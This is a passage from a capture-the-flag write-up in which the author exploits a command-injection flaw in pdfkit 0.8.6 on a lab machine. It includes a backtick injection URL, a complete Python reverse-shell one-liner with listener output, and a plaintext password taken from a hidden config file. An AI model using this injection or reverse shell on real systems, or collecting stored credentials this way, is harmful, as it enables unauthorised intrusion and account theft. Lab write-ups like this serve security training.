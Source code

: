 There we can see that it was generated by `pdfkit v0.8.6`, the next step is obvious, we search what vulnerability this version have. From this source https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795, I suppose if we add a `?name=%20` and then using backtick before and after our command we can do a command injection, so let's test it by using the `ls` command 

```
http://<tun0-ip>:port/?name=%20`ls`
```
<p align=center>
    <img src="ls.png" width=60%>
</p>

Now that we know it can execute command, we can try reverse shell using python3, after some trial and error I finally found a working python3 script like this:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Now using we need to start a listening port using `nc -lvnp 4444` and change the script IP and PORT to our IP and listening port, then put it on the website and see if we got any reverse shell.

```bash
┌──(kiinzu㉿Kiinzu)-[~/Downloads]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.11.189] 35186
$ ls
ls
app  config  config.ru	Gemfile  Gemfile.lock  pdf  public
$ whoami
whoami
ruby
$ 
```

## User Flag

Well we got the shell of ruby, if we look around the home folder, where the `user.txt` flag should be, we can see that there are 2 user, `henry` and `ruby` and the `user.txt` belongs to henry, so for now we can only search in ruby's home folder, and there is a hidden folder called `.bundle`, inside there is a file called `config` that has the login creds for henry

```bash
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
